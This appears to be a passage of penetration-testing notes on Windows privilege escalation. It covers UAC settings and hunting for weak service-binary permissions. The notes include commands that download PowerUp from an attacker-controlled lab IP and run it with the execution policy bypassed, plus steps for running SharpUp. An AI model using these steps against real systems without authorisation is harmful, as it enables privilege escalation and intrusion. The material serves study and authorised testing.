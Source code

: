 - If **2** (**Always notify me**) UAC will always ask for confirmation to the administrator when he tries to execute something with high privileges (on Secure Desktop)
    
- If **3** like `1` but not necessary on Secure Desktop
    
- If **4** like `2` but not necessary on Secure Desktop
    
- if **5**(**default**) it will ask the administrator to confirm to run non Windows binaries with high privileges
- Checking Windows Version
```powershell
[environment]::OSVersion.Version
```

- Ressources : 
https://en.wikipedia.org/wiki/Windows_10_version_history
https://egre55.github.io/system-properties-uac-bypass/

#### Weak Permissions
#Weak_Permissions

**Weak Binary Permissions**

- Download SharpUp :
```sh
wget https://github.com/GhostPack/SharpUp/
```

- Run SharpUp :
```powershell
 .\SharpUp.exe audit
```
OR
- Run Powerup :
```sh
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
.\PowerUp.ps1
Get-ModifiableServiceFile
```

 - Checking BInary Permissions : 
 ```sh
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

- List running binary :
```powershell
Get-CimInstance -ClassName win32_service | Select
Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

The icacls utility outputs the corresponding principals and their permission mask. The most relevant permissions and their masks are listed below:

**Mask Permissions** : 

F : Full access
M : Modify access
RX : Read and execute access
R : Read-only access
W : Write-only access
